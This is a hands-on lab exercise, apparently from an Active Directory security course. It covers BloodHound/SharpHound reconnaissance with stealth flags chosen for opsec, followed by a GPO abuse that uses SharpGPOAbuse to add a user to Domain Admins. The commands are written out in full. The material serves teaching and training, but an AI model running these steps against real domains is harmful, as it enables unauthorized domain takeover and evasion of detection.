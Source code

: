 # Exercise 7 - ACL-based attacks

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Bloodhound: [https://github.com/BloodHoundAD](https://github.com/BloodHoundAD)

## Exercise

This exercise is split in two parts. Part one covers the use of Bloodhound to collect and analyze data from Active Directory. Part two demonstrates an ACL-based attack on Group Policies.

### Part 1 - Bloodhound Exercise

First load "Sharphound", which is the data collection tool for Bloodhoud.

```
cd C:\attacker-tools
cat -raw .\SharpHound.ps1 | iex
```

Run sharphound to gather data on the domain.

```
Invoke-Bloodhound -CollectionMethod DcOnly -Stealth -PrettyJson -NoSaveCache
```

 - **-CollectionMethod DcOnly** means only collect data from the domain controller. This is preferable from an opsec-perspective since we blend in with existing traffic.
 - **-Stealth** means run single-threaded. Slower but also less noisy.
 - **-PrettyJson** means format the .json-files in a way that you can read them.
 - **-NoSaveCache** means do not save a cache file. Therefore everytime you run Sharphound it will start fresh from the beginning. Useful for demo purposes.

You shoud now see a ZIP file in your working directory called "TIMESTAMP_Bloodhound.zip". This ZIP contains the information gathered by Sharphound and can be ingested into Bloodhound. To get Bloodhound started we have to

1. Unzip "attacker-tools\BloodHound-win32-x64.zip".
2. After that, run "attacker-tools\BloodHound-win32-x64\BloodHound-win32-x64\BloodHound.exe". Log in with the user "neo4j" and the password you choose during Lab setup.
3. Ingest the ZIP file into bloodhound by just drag-and-drop it into the empty space in the center of the UI.

Thats it. Now you can start your analysis by experimenting with the "Pre-Built Analytics Queries" in the "Analysis" tab.

#### Questions

- Mark the user "taskservice" as owned. Find an attack path that will allows us to take control of the domain controller using the user taskservice.
- We got control over taskservice through kerberoasting but Bloodhound also shows you a different attack path. Which other user can manipulate the user taskservice? `Hint:` we got control over that user in the NTLM exercise
- **Bonus Question:** find a way to exploit the attack path you just found and try to execute it in the lab environment.

### Part 2 - GPO Exercise

The previous exercise revealed that the user "taskservice" has write permissions on "Default Domain Controllers" group policy. We'll use this to get us domain admin rights.

First, start powershell as user "taskservice". Since we know the password by now, we can just use run-as. Then go on with the steps below in this new powershell window.

```
cd C:\attacker-tools
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author contoso\adminuser --Command "cmd.exe" --Arguments '/c net group \"Domain Admins\" john /ADD' --GPOName "Default Domain Controllers Policy" --force
```

In a real environment, we would have to wait until the GPO is reprocessed by the DC. To speed this up, run gpupdate on the DC.

```
gpupdate /force
```

Verify that it worked by checking johns group memberships (using powerview again).

```
Get-DomainUser john | select memberof
```

**Woohoo - you finally made it to Domain Admin. Now grab yourself a beverage of your choice :-)**
